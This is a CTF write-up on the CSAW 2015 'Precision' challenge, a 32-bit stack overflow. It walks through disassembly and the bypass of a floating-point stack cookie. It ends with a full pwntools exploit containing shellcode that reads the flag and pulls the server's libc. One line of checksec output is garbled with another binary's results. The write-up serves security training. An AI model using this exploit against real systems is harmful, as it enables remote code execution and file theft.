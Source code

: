 ```yaml
---
author: breadchris
comments: true
layout: post
date:       2015-09-28 12:00+00:00
slug: csaw-ctf-precision
title:      CSAW CTF 2015 - Precision
---
```


### TL; DR
* Overflow

Precision was the lowest point exploitation challenge because it was literally a buffer overflow :3

Let's start by getting an idea what is up with it:

```bash
vagrant@precise64:~/csawctf$ file precision
prec: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf2c69f92c3f6d68319ee39c0926e84bccdeb0371, not stripped
```

Alright, and the security mitigations it has:

```bash
vagrant@precise64:~/csawctf$ ~/Template/checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precfound      NX enabled    No PIE          No RPATH   No RUNPATH   contacts
```

Oh boy! No NX! So we can put shellcode into our payload :3

```nasm
804856f:       lea    eax,[esp+0x18]
8048573:       mov    DWORD PTR [esp+0x4],eax     ; Our input
8048577:       mov    DWORD PTR [esp],0x8048682   ; Scanf format string
804857e:       call   8048410 <__isoc99_scanf@plt>
```

Oh man, we have a `scanf` that prompts us for our input and stores it in a static buffer.

If we look at the function prologue, we get an idea how big this buffer is:

```nasm
8048523:       sub    esp,0xa0 ; Our return address will be around 0xa0 bytes
```

The interesting part of this challenge comes from this part of `main`:

```nasm
8048583:       fld    QWORD PTR [esp+0x98]
804858a:       fld    QWORD PTR ds:0x8048690
8048590:       fucomip st,st(1)
8048592:       fstp   st(0)
8048594:       jp     80485a9 <main+0x8c>
8048596:       fld    QWORD PTR [esp+0x98]
804859d:       fld    QWORD PTR ds:0x8048690
80485a3:       fucomip st,st(1)
80485a5:       fstp   st(0)
80485a7:       je     80485c1 <main+0xa4>
```

We see a lot of floating point operations and at the beginning of that code we see a floating point load from `0x8048690`. Looking at the beginning of this function we see the same address again:

```nasm
8048529:       fld    QWORD PTR ds:0x8048690
804852f:       fstp   QWORD PTR [esp+0x98]
```

and it is storing the value in a stack based variable meaning it is most likely using this floating point value as a "stack cookie" more or less. So by simply getting the bytes of this floating point value and sticking them into our payload at the right offset as to align them with where the floating point value is located, we pass this check and get our exploit to land :3

Oh yeah, they also give us the address of our buffer in memory, so it is super easy peasy :3

### Note
This script also includes an example of how to exfiltrate a libc in case you need it for a higher point problem :3

```python
from pwn import *

r = remote("54.173.98.115", 1259)


shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80\x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e\x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38\xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36\x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87"

buf = int(r.recvline().strip()[-8:], 16)

r.sendline("A"*(0x80 - len(shellcode)) + shellcode + "\xA5\x31\x5A\x47\x55\x15\x50\x40EEEECCCCDDDD" + p32(buf+8))
r.recv()

r.sendline("cat flag.txt")
print r.recv()

r.sendline("cat /lib32/libc.so.6")

x = ""
while r.can_recv(5):
    x += r.recv()

with open("libc", "wb") as f:
    f.write(x)
```
